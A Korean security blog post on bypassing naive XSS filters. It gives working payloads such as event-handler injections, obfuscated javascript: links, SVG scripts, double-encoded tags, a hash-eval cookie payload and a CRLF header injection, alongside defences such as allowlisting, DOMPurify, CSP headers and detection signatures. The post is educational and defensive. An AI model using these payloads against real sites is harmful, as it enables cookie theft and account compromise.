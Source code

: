 ```yaml
---
title: "XSS 필터링 우회 : 개념·우회 패턴·실전 대응"
date: 2025-09-16 12:40:00 +0900
categories: [보안, Web]
tags: [XSS, FilteringBypass, Encoding, URL, SVG, TemplateInjection, CSP]
description: "XSS 필터링을 우회해보자"
author: "송지민"
toc: true
---
```

> ⚠️ 학습/방어 목적 문서입니다. 테스트는 반드시 본인 환경(로컬/CTF)에서만 진행하세요.

---

## 요약
이 문서는 **잘못된(deny/naive) 필터링**에 대한 우회 기법을 모아 정리한 보강판입니다.  
추가된 내용: **SVG XSS, React/Angular 템플릿 주입(간단히), CSP 실전 설정 예시, Burp/탐지 체크리스트**를 포함합니다.

핵심: **검증 → 정규화 → 컨텍스트별 인코딩** 이 가장 안전하고 실무 적용 우선순위입니다.

---

## 1. 이벤트 핸들러(on*) — 요점 및 우회 기법
- 이벤트 핸들러 속성(onload/onerror/onfocus 등)은 HTML 속성 컨텍스트에서 그대로 실행될 수 있음.
- 방어 실패 사례: 단순히 `<script>` 태그와 `onerror` 문자열을 금지하는 필터.
- 우회 포인트:
  - 속성 이름을 분할/재조합 또는 중복 삽입으로 복원 (`oneonerrorrror` → `onerror` 재조합)
  - `autofocus`, `tabindex` 등으로 자동 트리거
  - `iframe srcdoc`/`innerHTML`을 통해 이벤트 핸들러 주입

예시:
```html
<input id="x" autofocus onfocus="alert(document.cookie)">
<iframe srcdoc="&lt;img src=1 onerror=alert(document.domain)&gt;"></iframe>
```

---

## 2. 문자열 치환/반복 치환의 한계
- 반복적으로 `replace()` 하더라도 예상치 못한 중첩/중간 문자열을 이용해 키워드를 복원 가능.
- 결론: **키워드 제거는 디펜스 아키텍처로 부적합**.  
  항상 **출력 컨텍스트**에 맞춘 이스케이프가 정답.

---

## 3. 활성 하이퍼링크(`javascript:`) 정규화 우회
- 브라우저는 다양한 escape/encoding을 정규화함.
- 방어: 정규화(`new URL(x, base)`) 후 `protocol` 비교. 그러나 오래된 브라우저/기기 차이 고려 필요.
- 권장: 프로토콜 화이트리스트(`http(s)`만 허용).

우회 예시:
```html
<a href="\1\4jAVasC\triPT:alert(1)">x</a>
```

방어 코드(예시):
```js
try {
  const u = new URL(userHref, document.baseURI);
  if (u.protocol !== 'http:' && u.protocol !== 'https:') throw 'bad';
} catch(e){ /* reject */ }
```

---

## 4. 태그·속성 기반 필터의 우회 (대/소문자, 줄바꿈, 대체 태그)
- HTML은 대소문자 구분 없음, 속성은 공백/줄바꿈으로 분리 가능.
- `on*` 검사에서 줄바꿈/탭 `\n`으로 우회 가능.
- 대체 태그(`video`, `source`, `svg`, `math`, `iframe`)로 우회 가능.

예시 우회:
```html
<img src="" 
onerror="alert(1)">
<video><source onerror="alert(1)"/></video>
```

---

## 5. SVG XSS
- `<svg>`과 그 내부 태그(`<foreignObject>`, `<script>`, `<image onerror=...>`)는 자주 간과됨.
- SVG은 XML 네임스페이스와 폰트/외부 리소스 로딩을 허용하므로 공격면이 큼.

예시:
```html
<svg xmlns="http://www.w3.org/2000/svg">
  <script>alert(document.domain)</script>
</svg>
```
또는:
```html
<svg><image href="invalid" onerror="alert(1)"></image></svg>
```

방어 팁:
- SVG를 사용자 업로드로 허용할 때는 **완전 샌드박스 처리(렌더되지 않게, 또는 스크립트 제거)** 하거나 **content-disposition: attachment**로 강제 다운로드.
- SVG 파서로 허용 태그/속성만 필터링. (화이트리스트 방식)

---

## 6. React / Angular / Template Injection(간단 요약)
- **React**: JSX `dangerouslySetInnerHTML`를 쓰지 않으면 보통 안전. 그러나 서버에서 렌더된 HTML을 React가 innerHTML로 넣거나, 서버 템플릿에서 치환 없이 출력하면 문제.
- **Angular**: 바인딩 컨텍스트(`[]`, `()`)와 `innerHTML` 사용 주의. Angular는 자체 sanitizer를 제공하지만, `bypassSecurityTrustHtml`은 위험.
- **서버 템플릿 주입**: 서버 템플릿 엔진(예: ejs, nunjucks, jinja2)에서 autoescape를 끈 경우 위험.

권장:
- 프레임워크 기본 escaping 사용. 서버에서 렌더할 때도 템플릿의 autoescape 켜기.
- 사용자 HTML을 꼭 허용해야 하면, **DOMPurify** 같은 검증된 라이브러리로 정화.

---

## 7. JS 언어 특성 기반 우회 (강력)
- Unicode escape, `String.fromCharCode`, computed member access (`document['coo'+'kie']`), 숫자→36진수 등.
- 극단적: **JSFuck** 같은 방식으로 키워드 없이도 동작한다 (길지만 우회 가능).

예시:
```js
window['al'+'ert'](document['coo'+'kie']);
```
또는:
```js
String.fromCharCode(97,108,101,114,116) // "alert"
```

---

## 8. 디코딩 전/후 검증(더블 디코딩) 문제
- 원칙: **입력은 정규화(디코딩) → 검증 → 저장**의 순으로 한 번만 처리.
- 실수 사례: 검증은 인코딩된 상태에서, 실제 사용은 디코딩 상태에서 이루어짐 → 우회 가능.

예시 공격:
```
/search?query=%253Cscript%253Ealert(1)%253C/script%253E
```

방어: 서버에서 수신한 모든 URL 인자에 대해 `decodeURIComponent` 동일 횟수로 적용한 뒤 검사.

---

## 9. 길이 제한/분할 저장 우회
- 제한된 입력 길이를 회피하려면 페이로드를 여러 공간(해시/쿠키/localStorage/외부 스크립트)으로 분산.
- 常用 기법: `location.hash` + `eval(location.hash.slice(1))` (eval은 최대한 금지)

예시:
```
https://victim/?q=<img onerror="eval(location.hash.slice(1))">#alert(document.cookie)
```

---

## 10. CSP(Content Security Policy) 실전 예시 (권장)
- CSP은 XSS 피해 규모를 줄이는 강력한 수단. 예시 헤더:
```
Content-Security-Policy: default-src 'none'; script-src 'self' 'sha256-<HASH>'; object-src 'none'; base-uri 'self'; frame-ancestors 'none';
```
- nonce 기반 또는 해시 기반 정책 권장 (`'nonce-...'` 또는 `'sha256-...'`)  
- 주의: `unsafe-inline` 과 `unsafe-eval` 은 피해 감소 효과를 없애므로 사용 금지.

---

## 11. 탐지·테스트 체크리스트 (Burp/자동화)
- 시그니처: `onerror=`, `onload=`, `<script`, `<svg`, `srcdoc=`, `javascript:`
- 정규화 후 검사: `new URL(payload, base)`를 사용해 `protocol`/`host` 검증
- 자동투입 페이로드: 다양한 인코딩(`%25`, `%09`, `%0A`, `%0D`, `\x`, `\u`)과 대소문자 변형
- Burp Intruder Payloads: JSFuck snippets, SVG payloads, event-handler snippets, template injection markers (`{{ }}`, `<% %>`)
- 탐지 로그: 입력 저장시의 원본+정규화된 값 모두 로깅

---

## 12. 제어문자 / 퍼센트-인코딩 (`%09`, `%0A`, `%08` 등)
### 왜 중요한가?
퍼센트로 인코딩된 제어문자(예: `%09` 탭, `%0A` LF, `%0D` CR, `%00` NUL, `%08` BS 등)는 디코딩·정규화 과정에서 제거되거나 공백으로 바뀌어 필터를 우회할 수 있습니다. 특히 URL 스킴, 속성 분리, HTTP 헤더 조작(CRLF)에서 큰 위협.

### 공격 예시
- `ja%09vascript:alert(1)` → 일부 정규화에서 `javascript:`로 복구
- 속성 분리: `<img src="x"%0Aonerror=alert(1)>`
- 헤더 주입: `Set-Cookie: x=1%0D%0ASet-Cookie: hacked=1` (잘못 처리 시)